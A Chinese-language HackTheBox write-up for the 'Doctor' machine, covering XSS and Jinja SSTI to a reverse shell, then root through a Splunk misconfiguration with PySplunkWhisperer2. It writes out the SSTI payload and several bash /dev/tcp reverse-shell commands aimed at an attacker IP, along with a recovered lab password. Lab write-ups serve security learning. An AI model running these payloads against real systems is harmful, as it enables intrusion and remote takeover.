









[HTB]Docter

需要添加一条hosts
10.10.10.209 doctors.htb
首先nmap扫一波

有登录框，注册一个用户，登陆上有一个留言界面，看大佬可以XSS反弹shell(:
ps:涉及到我的知识盲区了
利用的是nc的-e``-c，只有在nc.traditional版本中才有，而正常的ubuntu发行版是nc.openbsd
不带-e``-c


利用


成功弹到shell，可以用python建立一个伪终端
python3 -c 'import pty;pty.spawn("/bin/bash")'
看大佬还可以用ssti
在/archive页面可以触发

同样可以反弹shell
{{''.__class__.__mro__[1].__subclasses__()[132].__init__.__globals__['system']("bash -c 'bash -i >& /dev/tcp/10.10.14.2/4444 0>&1'")}}
登陆上后我们是普通用户权限
去home下还有一个用户shaun
在/var/log/apache2下面有个backup，在里面发现重置密码流量，尝试登录

登陆成功，但还是普通用户权限，无果
开始nmap扫出了8089有个splunkd服务
通过Splunk错误配置，可以进行本地提权或远程执行代码
我们尝试使用获得的账户和密码来反弹shell，附上github项目
执行
python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.2 --username shaun --password Guitar123 --payload "/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.2/4444 0>&1'"

这样我们就拿到了root用户